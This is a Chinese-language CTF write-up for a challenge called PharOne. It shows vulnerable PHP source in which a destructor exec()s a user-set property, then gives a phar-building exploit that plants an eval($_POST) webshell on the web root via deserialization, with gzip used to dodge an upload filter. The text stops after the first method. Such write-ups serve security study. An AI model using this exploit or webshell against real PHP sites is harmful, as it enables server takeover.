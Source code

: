### PharOne(Phar反序列化、gzip压缩绕过过滤、无回显RCE)

> 考点：Phar反序列化、gzip压缩、无回显RCE

打开题目，有文件上传功能，F12有提示class.php
 访问`./class.php`，得到源码

```php
 <?php
highlight_file(__FILE__);
class Flag{
    public $cmd;
    public function __destruct()
    {
        @exec($this->cmd);
    }
}
@unlink($_POST['file']); 
```

结合文件上传，考虑phar反序列化；同时还是无回显RCE，用写入马和反弹shell都行

用普通的phar文件上传发现不行（jpg才行）
 修改然后上传发现被正则匹配
 ![在这里插入图片描述](assets/af07881b433d4a10a548767ca6b28945.png)绕过正则匹配，这里用的是gzip压缩的方法

#### 方法一 写马

exp

```php
<?php
class Flag{
    public $cmd;
}

$a=new Flag();
$a->cmd="echo \"<?=@eval(\\\$_POST['a']);\">/var/www/html/1.php";
//这里$_POST前面要三个\\\,这样才能正确解释为超级全局变量，两个的话会被当成普通变量
$phar = new Phar("hacker.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```
